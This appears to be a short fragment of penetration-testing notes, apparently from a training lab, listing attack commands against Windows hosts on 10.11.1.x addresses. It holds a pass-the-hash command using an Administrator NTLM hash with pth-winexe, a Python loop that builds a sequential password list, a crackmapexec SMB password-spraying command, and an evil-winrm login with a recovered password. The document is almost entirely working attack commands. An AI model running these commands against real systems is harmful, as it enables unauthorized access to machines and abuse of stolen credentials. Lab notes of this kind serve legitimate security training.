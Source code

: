 
## 24:
```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f38115019ca2fb //10.11.1.24 cmd
```


## Generating passwords:
```python
with open('pass.lst', 'w') as f:
	for i in range(100):
		f.write(f'ThisIsTheUsersPassword{i:02d}\n') 
```


# others:
```bash
crackmapexec smb 10.11.1.21 -u user.txt -p pass.lst --continue-on-success
# login with:
evil-winrm -i 10.11.1.20 -u tris -p ThisIsTheUsersPassword22 
```